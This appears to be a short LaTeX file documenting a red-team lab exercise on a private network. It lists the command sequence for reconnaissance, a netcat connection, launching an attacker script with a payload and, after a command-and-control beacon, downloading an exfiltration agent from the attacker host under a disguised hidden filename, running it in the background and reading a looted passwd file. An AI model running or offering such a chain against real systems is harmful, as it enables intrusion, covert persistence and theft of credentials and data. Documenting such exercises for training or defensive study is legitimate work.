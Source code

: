 \documentclass[11pt]{article}
\begin{document}
\subsection{Red team sequence}
\begin{lstlisting}
source .venv/bin/activate
sudo bash red_team/recon.sh 192.168.1.3
sudo bash red_team/ip_switch.sh add 192.168.1.14
nc -s 192.168.1.14 -v 192.168.1.3 2222
bash red_team/ip_switch.sh add 192.168.1.15
curl -s --interface 192.168.1.15 http://192.168.1.3:9999/
sudo .venv/bin/python3 red_team/red_attacker.py -t 192.168.1.3 -l 192.168.1.15
payload
\end{lstlisting}

\subsection{Commands issued after C2 beacon}
\begin{lstlisting}
whoami
id
cat /etc/hostname
ls
sudo .venv/bin/python3 red_team/exfil_listener.py
curl -sS http://192.168.1.15:8888/exfil_agent.py -o /tmp/.cache_update.py
nohup python3 /tmp/.cache_update.py 192.168.1.15 > /dev/null 2>&1 &
ls -la loot/
cat loot/passwd | head -5
\end{lstlisting}
\end{document}
